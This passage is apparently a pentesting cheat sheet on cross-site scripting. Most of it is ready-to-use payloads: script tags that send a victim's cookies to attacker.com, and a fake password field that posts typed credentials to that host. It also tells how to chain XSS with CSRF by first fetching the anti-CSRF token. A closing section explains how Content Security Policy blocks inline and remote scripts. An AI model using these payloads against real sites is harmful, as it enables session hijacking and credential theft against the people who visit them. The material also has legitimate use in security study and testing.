 ### Steal cookies
```html
<script>fetch('//attacker.com?'+document.cookie)</script>
<!-- or -->
<script>location='//attacker.com?'?+document.cookie</script>
```

```html
<script>
fetch('https://attacker.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

Limitation:

* The victim might not be logged in.
* Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
* Sessions might be locked to additional factors like the user's IP address.
* The session might time out before you're able to hijack it.

### Capture passwords

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://attacker.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

### Perform CSRF

* When CSRF occurs as a standalone vulnerability, it can be patched using strategies like anti-CSRF tokens. However, these strategies do not provide any protection if an XSS vulnerability is also present.
* If the site use a token you can get it doing a first request and then add the token in a second request

## Content security policy

CSP restrict the resources (such as scripts and images) that a page can load and restricting whether a page can be framed by other pages. CSP defends against XSS attacks in the following ways

* Restricting Inline Scripts
  * `<script>document.body.innerHTML='defaced'</script>` will not work
* Restricting Remote Scripts
  * `<script src="https://evil.com/hacked.js"></script>` will not work
* Restricting Unsafe JavaScript
* Others [https://cheatsheetseries.owasp.org/cheatsheets/Content\_Security\_Policy\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html)
